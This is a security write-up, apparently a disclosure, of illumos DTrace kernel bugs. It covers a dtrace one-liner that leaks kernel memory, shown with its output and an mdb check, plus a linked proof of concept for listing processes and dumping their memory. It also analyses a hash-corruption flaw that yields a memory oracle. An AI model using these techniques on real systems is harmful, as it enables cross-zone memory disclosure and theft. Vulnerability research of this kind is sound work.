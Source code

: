 This bug is interesting because it can be demonstrated from the command line.

    >  dtrace -n 'BEGIN{ print(inet_ntoa((in_addr_t*)&`_mmu_pagemask))}'
    dtrace: description 'BEGIN' matched 1 probe
    CPU     ID                    FUNCTION:NAME
      0      1                           :BEGIN string "0.240.255.255"


From the global zone we can verify it has read the 4 bytes 0x00f0ffff

    > echo '_mmu_pagemask::dump'| mdb -k
                        0 1 2 3  4 5 6 7 \/ 9 a b  c d e f  01234567v9abcdef
    fffffffffb94a1d0:  ff0f0000 00000000 00f0ffff ffffffff  ................

We can plug this vulnerability into our framework and use it to list processes and dump their memory contents. You might be concerned that reading 4 bytes at a time is slow but there is no noticable delay when listing processes.

[POC Code on Github](https://github.com/benmmurphy/illumos_playground/blob/master/ZDI-16-274/global_ps2.c)

DTrace Hash Corruption
======================

DTrace has support for hashmaps and allows the user to access the data in the hashmap using the store and load instructions. DTrace tries to separate the metadata from the data and only allow the user to modify the data. However, it is possible to modify the metadata and this allows an attacker to create a memory oracle. An attacker can choose an address and an array of bytes and check whether the memory at that address is equal to the array of bytes. This is equivalent to a slow arbitrary memory read because you can check a single byte 256 times to read a single byte of memory.


In `dtrace_canstore` it checks that the offset into the hash chunk is greater
than the size of `dtrace_dynvar_t.`

https://github.com/joyent/illumos-joyent/blob/release-20151224/usr/src/uts/common/dtrace/dtrace.c#L679

    chunkoffs = (addr - base) % dstate->dtds_chunksize;

    if (chunkoffs < sizeof (dtrace_dynvar_t))
      return (0);

Presumably, it is doing this to prevent the user from writing to the metadata
in the hash chunk and the author believed all the metadata is contained in the
`dtrace_dynvar_t` structure. This belief is true but `dtrace_dynvar_t` is a
dynamically sized structure with the embedded structure `dtrace_tuple`
containing a dynamically sized array of `dtrace_key` structures.

    typedef struct dtrace_dynvar {
      uint64_t dtdv_hashval;      /* hash value -- 0 if free */
      struct dtrace_dynvar *dtdv_next;  /* next on list or hash chain */
      void *dtdv_data;      /* pointer to data */
      dtrace_tuple_t dtdv_tuple;    /* tuple key */
    } dtrace_dynvar_t;

    typedef struct dtrace_tuple {
      uint32_t dtt_nkeys;     /* number of keys in tuple */
      uint32_t dtt_pad;     /* padding */
      dtrace_key_t dtt_key[1];    /* array of tuple keys */
    } dtrace_tuple_t;
